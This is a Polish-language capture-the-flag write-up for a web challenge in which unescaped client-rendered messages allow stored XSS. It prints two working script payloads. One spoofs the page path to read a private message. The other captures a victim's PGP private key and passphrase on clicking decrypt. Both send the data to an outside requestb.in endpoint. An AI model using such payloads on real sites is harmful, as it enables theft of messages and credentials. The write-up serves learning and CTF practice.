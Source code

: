 # Zadanie 2 - web duże

## Link do zadania

https://hard.web.uw2017.p4.team

## Write-up

### Ogólna idea

Wiadomość jest szyfrowana po stronie użytkownika, zatem możliwe jest wysłanie
dowolnej wiadomości, a ponieważ zaszyfrowana wiadomość nie jest escapowana i
jest renderowana po stronie klienta to możliwy jest atak XSS

Wystarczy wysłać do admina dwie odpowiednio spreparowane wiadomości
i liczyć na to że je otworzy i spróbuje odszyfrować
(w sumie można to zrobić też w jednej wiadomości...)

Oczywiście chodzi tu o wyciągnięcie klucza prywatnego oraz wiadmości o id 1


### Wyciąganie wiadomości

Należy wykonać po stronie klienta zapytanie które pobierze wiadomość.
Jesteśmy cały czas w tej samej domenie więc SOP na to pozwala.

Następnie możemy wysłać tą wiadomość na własny serwer (SOP pozwala na wysłanie
zapytania, nie pozwoli tylko na odczytanie odpowiedzi serwera u atakowanej ofiary,
ale to bez znaczenia)

Wszystko byłoby łatwe, gdyby nie to, że serwer ma dodatkowe zabezpieczenie
przed atakiem CSRF i nie pozwala wejść na stronę wiadomości ze stron innych
niż `/list_messages`.

Na szczeście jest na to sposób
```
window.history.replaceState({}, "Hello", '/list_messages')
```

Po wykonaniu tej komendy serwer będzie myślał, że zapytanie pochodzi ze strony
`/list_messages` i oto mamy dostęp do wiadomości

Cała wiadomość:

```
<script>
window.history.replaceState({}, "Hello", '/list_messages')

$.ajax({
    url: "/read_message/1",
}).then(function(data) {
    $.post({
        url: "https://requestb.in/158azuq1",
        data: {
            message: data
        }
    })
});
</script>
```

### Wyciąganie klucza prywatnego

Klucz prywatny nie jest trzymany nigdzie na serwerze. Dlatego to użytkownik
musi sam go nam wysłać. Jak go do tego zachęcić? Spreparować tak wiadomość,
aby przy próbie odszyfrowania odczytała wklejony w odpowiednie pole klucz
i wysłała go na nasz serwer

Cała wiadomość:

```
<script>
$(function() {
    var privkey = document.getElementById("privkey");
    var user_pass = document.getElementById("pgp-pass");

    document.getElementById('decrypt-button').onclick = function() {
        $.post({
            url: "https://requestb.in/158azuq1",
            data: {
                privKey: privkey.value.trim(),
                userPass: user_pass.value
            }
        })
    };
});
</script>
```

### Flagi

Flaga z wiadomości: `UW2017{Mess with the best, die like the rest.}`

Flaga z klucza prywatnego: `UW2017{One small XSS for man...}`

